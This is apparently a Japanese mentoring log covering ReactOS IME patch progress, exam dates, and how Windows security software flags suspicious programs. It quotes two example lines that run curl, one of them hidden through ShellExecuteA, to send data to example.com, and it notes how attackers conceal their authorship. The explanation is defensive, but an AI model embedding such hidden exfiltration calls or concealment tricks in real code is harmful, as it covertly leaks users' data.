 # 2023-02-26

こんにちは

こんにちは

進捗報告。ReactOSのPR #5075 がマージされた。

- https://github.com/reactos/reactos/pull/5075

これでWM_IME_SYSTEM:IMS_UPDATEIMEUIのメッセージ生成が完了。

PR #5105 で未確定文字列の修正が入る予定だ。

- https://github.com/reactos/reactos/pull/5105

次の基本情報の試験は何月にありますか？

現状申し込みできるのだと10月の秋季試験ですね

ITパスポートの試験は何月ですか？

結構すぐ(具体的には3月の前半)にあるようです

早めに受けておくことをオススメします。

さて、Windowsの脅威検出アルゴリズムの一部は、ブラックリスト・グレーリストで実装されている。
例えば、CreateRemoteThread/QueueUserAPCを使用するプログラムは、一般に怪しいと思われる。

system("curl.exe https://example.com?info=1234...");
や
ShellExecuteA(NULL, "curl.exe", "https://example.com?info=1234...", NULL, SW_HIDE);
を実行するコードは、外部に情報を送信しているのではないかと疑われる（スパイ容疑）。

管理者権限でDeleteFileを実行するコードは、システムを破壊しているのではないかと疑われる。

途中で操作不能になるようなプログラムは、ウイルスと疑われても仕方ない。
また、アプリでは使えない「NGワード」がいくつかあるので注意が必要だ。
すぐわかるだろうが、「ウイルス」とか「身代金」などといった言葉はアプリ内では使えない。

疑われたプログラムは、ウェブから排斥される傾向にある。
また、疑われるのはプログラムだけでなく、それを作成した作成者も疑われることになる（作成者の痕跡が残っていた場合）。
そのような場合、作成者はソフトウェア製品に対する製造責任が問われることになる。
普通にMSVCでビルドしたときは、バイナリーにユーザー名やテレメトリーが埋め込まれるので、作成者の痕跡が残ることになる。
ハッカーはユーザー名に「user」を使ったり、わざわざLinux上でEXEを作ったりしている。

セキュリティソフトで検体をスキャンすると陽性か陰性かを判定してくれる。
コロナウイルスのPCR検査と同じように、陽性には偽陽性（false positive）が含まれている。
陽性でも脅威がない場合や、陰性でも脅威がある場合がある。
ファイルが陽性かどうかを確かめるときは、VirusTotalというサイトにアップロードするといい。

- VirusTotal: https://www.virustotal.com

これは複数のセキュリティソフトで検査した結果を表示してくれる。
ただし、アップロードしたファイルは公開されるので注意。

攻撃者やバグハンターは、リストにない攻撃手法を発見しようとしている。
発見したら、彼らはそのPoCをダークウェブで公開・販売したり、バグバウンティの報奨金を獲得する。

日本では、2011年よりウイルス作成罪・所持罪が発効した。
個人は正当な理由なくウイルスを作成・所持できないことになっている。
日本の法律ではセキュリティ会社などに入らなければウイルス検体を扱うことはできない。

さて、プログラミングにおいて中核となる「コア」な技術には名前が付いている。
文字列処理、ファイル入出力、ソートアルゴリズム、正規表現、音声入力、音声認識、画像認識、動画再生、音声合成、文字認識、暗号化、ソケット通信、3Dグラフィック、GPS、探索アルゴリズム、データベースなどなど。
コア技術の力を借りると、自分のプログラムをより強力にすることができる。

知りたい技術の名前を検索するとすぐにサンプルコードを見つけることができる。
例えば、音声合成は英語で「speech synthesis」だから、GitHubでspeech-synthesisを検索すると音声合成のコードが大量に見つかる。

【課題】とりあえず自分で作れるアプリを製作し、GitHubでリリースせよ。

今日はここまで。

了解です

意外と課題の幅が大きくて難しそうです...

---

[戻る](2023-02-19.md) | [次へ](2023-03-05.md)

